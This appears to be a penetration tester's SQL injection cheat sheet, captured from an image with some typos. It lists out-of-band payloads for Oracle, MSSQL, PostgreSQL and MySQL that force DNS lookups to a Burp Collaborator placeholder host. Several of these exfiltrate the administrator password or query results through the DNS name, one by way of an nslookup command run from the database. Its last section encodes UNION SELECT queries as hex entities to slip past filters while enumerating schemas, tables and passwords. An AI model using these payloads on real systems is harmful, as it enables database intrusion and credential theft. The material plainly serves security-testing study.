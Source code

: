 Out Of Band Blind **(Union select ...)** REQUIERED UNIOOOOOOOOOOOON!

```
 Oracle 	

(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft 	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL 	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL 	

The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

```

DNS lookup with data exfiltration

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT+password+FROM+users+WHERE+username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL 	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL 	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

XML encoding SQL Injection Extension = Hackvertor Try in diferent entities of the body

```
UNION SELECT NULL -> attack detected

xml encoding via hex entity of hackvertor extension
<@hex_entities>UNION SELECT NULL<@/hex_entities>
<@hex_entities>UNION SELECT schema_name FROM information_schema.schemata<@/hex_entities>
<@hex_entities>UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public'<@/hex_entities>
<@hex_entities>UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'<@/hex_entities>
<@hex_entities>UNION SELECT password FROM public.users WHERE username='administrator'<@/hex_entities></storeId>
```
